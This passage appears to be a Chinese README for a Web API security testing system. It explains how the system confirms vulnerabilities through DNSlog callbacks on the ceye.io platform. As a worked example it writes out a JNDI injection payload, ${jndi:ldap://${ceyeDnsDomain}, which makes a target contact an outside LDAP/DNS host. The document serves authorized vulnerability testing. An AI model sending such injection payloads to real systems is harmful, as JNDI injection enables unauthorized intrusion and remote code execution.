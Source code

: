 DNSlog判断需要安全测试人员提供查询DNSlog结果的地址，Web API 安全检测系统目前只支持“http://ceye.io/”平台查询。选择DNSlog判断时需要给出ceye平台提供给个人的Ceye标识符和Ceye API Token，并在载荷中使用${ceyeDNSDomain}表示Ceye标识符替换的位置，之后系统在对含有向ceye平台指定的Ceye标识符发起DNSlog查询的攻击载荷的报文发起请求时，会使用安全测试人员所提供的Token向Ceye平台的查询接口发起查询请求，如果存在本报文的记录，则说明测试成功，否则测试失败。

①登录CCeye平台，获取标识符和Token，输出到指定位置

![image-20230430193251535](README.assets/image-20230430193251535.png)

②测试JNDI注入，使用载荷${jndi:ldap://${ceyeDnsDomain}，其中系统将把${ceyeDnsDomain}替换成fpz8if.ceye.io（测试人员提供的标识符），并携带报文的ID，同时选择dnslog判断方式

![image-20230430195329080](README.assets/image-20230430195329080.png)

③点击start按钮，查看ceye平台和测试成功的报文的id，可以发现系统测试每个报文时会附上每个报文的id，以来区分是哪个报文测试成功，并且系统会使用测试人员提供的token去ceye平台上获取请求结果。

![image-20230430195532226](README.assets/image-20230430195532226.png)
